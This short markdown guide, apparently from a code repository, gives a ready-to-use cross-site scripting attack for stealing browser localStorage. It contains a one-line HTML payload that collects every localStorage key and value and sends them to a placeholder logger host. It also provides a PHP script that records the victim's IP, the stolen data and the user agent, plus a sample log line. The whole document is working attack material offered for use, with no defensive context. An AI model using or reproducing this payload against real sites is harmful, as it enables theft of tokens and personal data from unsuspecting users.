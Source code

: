 # Simple Steps - Log LocalStorage (XSS + PHP)

## One-Line Payload (HTML)

```html
<img src=x onerror="let d=[];for(let i=0;i<localStorage.length;i++){d.push(localStorage.key(i)+'='+localStorage.getItem(localStorage.key(i)));}new Image().src='http://your-logger-site.com/logger.php?localstorage='+encodeURIComponent(d.join(';'))">
```

---

## PHP Logger (`logger.php`)

```php
<?php
$log = "[" . date("Y-m-d H:i:s") . "] ";
$log .= "IP: {$_SERVER['REMOTE_ADDR']} | ";
$log .= "LocalStorage: " . ($_GET['localstorage'] ?? 'None') . " | ";
$log .= "User-Agent: {$_SERVER['HTTP_USER_AGENT']}" . PHP_EOL;

file_put_contents('localstorage.log', $log, FILE_APPEND);
```

---

## Example Output (`localstorage.log`)

```
[2025-03-05 16:45:00] IP: 192.168.1.10 | LocalStorage: theme=dark;userID=12345 | User-Agent: Mozilla/5.0
```
